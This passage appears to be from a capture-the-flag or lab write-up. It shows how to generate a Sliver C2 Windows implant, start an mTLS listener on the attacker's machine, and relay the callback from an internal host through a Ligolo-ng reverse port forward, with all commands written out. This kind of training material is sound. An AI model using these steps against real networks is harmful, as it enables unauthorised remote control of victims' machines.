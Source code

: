 1. Review an existing lecture
    You can start by downloading one of the already uploaded course lectures to review its structure and contents. Inspect its .url files.
    ![](https://cdn-images-1.medium.com/max/1000/1*LmR5l5U_mW8lygMAleLgOQ.png)  

2. Generate a Sliver Windows implant

    + Start the Sliver C2 server (if not already running): `sliver-server`
    + Generating an **mTLS-encrypted** Sliver Windows implant 

        `mTLS` (Mutual Transport Layer Security) is the secure communication protocol used by Sliver to establish encrypted communication between the implant (payload) and the C2 server.

        In this scenario, the monitoring script is running on WS-3. This means the shell will most likely connect back from that host. However, since WS-3 is on an internal network and has no direct connectivity to our attack machine, we must pivot through a pivot host 'middle machine'. This middle machine should have access to both the internal network and our Kali attack box. It will act as a port-forwarding proxy, relaying connections to us.
        
        **Network Architecture & Connection Flow**
        ```md 
        [Target/Victim] → [Pivot Host] → [Attack Machine]
        ```
        
        ![](https://cdn-images-1.medium.com/max/1000/0*Iah6iVeJnyBO1kvH)

        Generate the implant using the pivot host’s local IP:
        ```bash
        generate --mtls 192.168.99.1:6666 --os windows --arch amd64 --format exe --name sliver
        ```
        ![](https://cdn-images-1.medium.com/max/1000/1*xPWDblVFOSLti77oMnoJjQ.png)

        > **WARNING:** The Sliver implant is relatively large in size. You could alternatively use Metasploit, but I challenged myself to only use Sliver C2 for practice. As far as I know, the staged payload format we used earlier in this write-up does not support direct .exe output. You could generate C code and embed it into a loader, but that takes more time. If you have a faster method, [DM me](https://www.linkedin.com/in/zyad-abdelbary/).  
        {: .prompt-warning }

    + Start the mTLS Listener
        ```bash
        mtls -L 10.10.16.24 -l 6666
        ```
        ![](https://cdn-images-1.medium.com/max/1000/1*ZlMWsJmh5yHpG_PszynMBw.png)
        
        To view active listeners `jobs`

3. Reverse Port Forwarding with Ligolo-ng

    We use Ligolo-ng to forward the implant’s callback port from the internal pivot host to our Kali box.
    
    In the Ligolo-ng session

    ```bash
    listener_add --addr 192.168.99.1:6666 --to 10.10.16.24:6666
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*rUHc1WJtf_Iqi8Rd1GVnRQ.png)
